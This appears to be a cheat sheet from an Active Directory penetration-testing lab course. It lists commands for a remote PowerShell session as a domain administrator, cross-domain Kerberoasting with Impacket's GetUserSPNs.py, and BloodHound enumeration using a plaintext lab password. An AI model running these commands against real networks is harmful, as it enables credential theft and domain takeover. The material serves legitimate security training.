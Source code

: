 PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host.

`Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator`

Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host.

`GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`

Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host.

`bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2`

Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI.

`zip -r ilfreight_bh.zip *.json`

